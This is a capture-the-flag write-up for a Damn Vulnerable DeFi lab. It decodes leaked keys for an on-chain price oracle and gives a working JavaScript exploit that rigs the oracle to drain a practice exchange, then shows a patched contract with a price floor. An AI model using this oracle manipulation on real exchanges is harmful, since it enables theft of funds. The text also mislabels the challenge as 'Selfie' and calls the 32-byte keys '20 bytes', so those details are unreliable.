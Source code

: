 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Selfie
---
```


## Description
While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
          HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: 0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

## Solution
Oracles are an attack vector, whether we like it or not. By integrating an oracle into our
contract we are TRUSTING that the oracle behaves. If the oracle becomes compromised
then an attacker can use the oracle's bad pricing to manipulate variabels in our contract.

In this challenge, what would happen if we gained access to the trustful oracle's private keys?
We could set any price we want on the exchange and buy those damn valuable nft's for dirt cheap.

Upon seeing the server snippet, my immediate thought is that its a list of private keys. But how do we decode it? What kind of data is it? The first hint is that characters
come in two's and their range is 0-f. This is hex byte data! If we plug the server response into a
hex to utf-8 decoder here's what we get

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

Now this isn't necesarrily obvious, but this output looks like a valid base64 encoded string. I wouldn't expect you to know this unless you've seen base64 encoded strings before. That's what makes this challenge hard. Unless you've seen hex byte data and base64 encodings before, it's unlikely you'd be able to recognized them.

Now if we plug the base64 encoded strings into a base64 decoder we get

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

20 bytes long! Those are private keys! It looks like we have the private keys
of 2/3 trusted sources. With a majority, we can take over the oracle's pricing. Here are the steps
to steal the NFTs

1. Using our two trusted source addresses, post a price of 0 to the oracle
2. Buy the NFT
3. Using our two trusted source addresses, post the max price to the oracle
4. Sell the NFT (profits!!!)
5. Using our two trusted source addresses, set the price back to the original price

We can do this all in Javascript

```
it('Exploit', async function () {        
    /** CODE YOUR EXPLOIT HERE */
    // 0xe92401A4d3af5E446d93D11EEc806b1462b39D15
    const trustedSource1 = new ethers.Wallet("0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9", ethers.provider);
    // 0x81A5D6E50C214044bE44cA0CB057fe119097850c
    const trustedSource2 = new ethers.Wallet("0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48", ethers.provider);
    trustedSource2.connect(ethers.provider)

    // Set price to 0 and buy
    await this.oracle.connect(trustedSource1).postPrice("DVNFT", 0);
    await this.oracle.connect(trustedSource2).postPrice("DVNFT", 0);
    await this.exchange.connect(attacker).buyOne({value: ethers.BigNumber.from("1")})

    // Set price to max and sell
    const maxPrice = await ethers.provider.getBalance(this.exchange.address)
    await this.oracle.connect(trustedSource1).postPrice("DVNFT", maxPrice)
    await this.oracle.connect(trustedSource2).postPrice("DVNFT", maxPrice)
    await this.nftToken.connect(attacker).approve(this.exchange.address, "0")
    await this.exchange.connect(attacker).sellOne(ethers.BigNumber.from("0"))

    // Set price back to original
    await this.oracle.connect(trustedSource1).postPrice("DVNFT", INITIAL_NFT_PRICE)
    await this.oracle.connect(trustedSource2).postPrice("DVNFT", INITIAL_NFT_PRICE)
});
```

## Patched Contract
Ideally we shouldn't use oracles at all. But if we must, there are several ways to mitigate against an unexpected change in oracle prices. Notice I say _mitigate_, not _prevent_, because we can never 100% eliminate the trust element in using oracles. Here are two strategies that come to mind
1. Set our own price floor. If the orcale is reporting a price lower than the price floor we'll use the price floor instead.
2. Use the average of the last N reported oracle prices and restrict the exchange to 1 purchase per block. In this scenario an attacker could still drive the price down to 0. But it would take much longer and may give time for the exchange to realize the trusted keys have been compromised.

Here's an example of approach 1. While still exploitable, it reduces the attacker's maximum profits

```
contract ExchangeV2 is ReentrancyGuard {

    using Address for address payable;

    // Minimum price is 10% of the initial price
    uint256 constant MIN_PRICE = 100 ether;

    DamnValuableNFT public immutable token;
    TrustfulOracle public immutable oracle;

    event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
    event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

    constructor(address oracleAddress) payable {
        token = new DamnValuableNFT();
        oracle = TrustfulOracle(oracleAddress);
    }

    function buyOne() external payable nonReentrant returns (uint256) {
        uint256 amountPaidInWei = msg.value;
        require(amountPaidInWei > 0, "Amount paid must be greater than zero");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = getMinPrice(oracle.getMedianPrice(token.symbol()));
        require(amountPaidInWei >= currentPriceInWei, "Amount paid is not enough");

        uint256 tokenId = token.safeMint(msg.sender);
        
        payable(msg.sender).sendValue(amountPaidInWei - currentPriceInWei);

        emit TokenBought(msg.sender, tokenId, currentPriceInWei);

        return tokenId;
    }

    // The minimum price SHOULD NOT be under MIN_PRICE
    function getMinPrice(uint256 oraclePrice) internal pure returns (uint256) {
        if (oraclePrice < MIN_PRICE)
            return MIN_PRICE;
        return oraclePrice;
    }

    function sellOne(uint256 tokenId) external nonReentrant {
        require(msg.sender == token.ownerOf(tokenId), "Seller must be the owner");
        require(token.getApproved(tokenId) == address(this), "Seller must have approved transfer");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(address(this).balance >= currentPriceInWei, "Not enough ETH in balance");

        token.transferFrom(msg.sender, address(this), tokenId);
        token.burn(tokenId);
        
        payable(msg.sender).sendValue(currentPriceInWei);

        emit TokenSold(msg.sender, tokenId, currentPriceInWei);
    }

    receive() external payable {}
}
```